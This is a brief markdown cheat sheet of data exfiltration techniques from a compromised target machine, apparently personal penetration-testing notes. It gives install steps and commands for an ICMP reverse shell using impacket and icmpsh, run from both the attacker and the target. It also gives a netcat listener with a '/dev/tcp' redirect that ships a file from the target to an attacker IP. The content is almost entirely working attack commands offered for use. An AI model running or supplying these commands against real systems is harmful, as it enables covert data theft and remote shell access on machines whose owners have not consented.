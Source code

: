 ﻿# Data exfiltration

How to download data from the target machine

- ICMP
- netcat

## ICMP - Internet Control Message Protocol

**Goal:** Extract data through the ICM protocol  
**How:** Using impacket and icmpsh

ICMP is a protocol intented to be lightweight (small messages)  
Impacket helps chunk data to extract them using icmpsh  
icmpsh makes a reversal shell between target and attacker

### Tools

Install python-pip

    sudo apt install python3-pip

Install impacket

    sudo git clone https://github.com/SecureAuthCorp/impacket.git
    sudo pip3 install -r /<git cloning path>/impacket/requirements.txt
    sudo python3 /<git cloning path>/impacket/setup.py install

Install icmpsh

    sudo git clone https://github.com/bdamele/icmpsh.git
    cd icmpsh

Insert in `/etc/sysctl.conf`

    net.ipv4.icmp_echo_ignore_all=1


### Usage
#### Attacker machine

    sudo ./icmpsh_m.py <attacker-ip> <target-ip>

#### Target machine

You need to upload a icmpsh tool on the target machine first

##### Send test

    icmpsh.exe -t <attacker-ip> -r

##### Open reversal
    icmpsh.exe -t <attacker-ip>

## netcat

Open netcat listener on the attacker machine

    nc -lvnp 3333 > reset_root

On target machine shell execute the following

    cat /usr/bin/reset_root > /dev/tcp/192.168.56.107/3333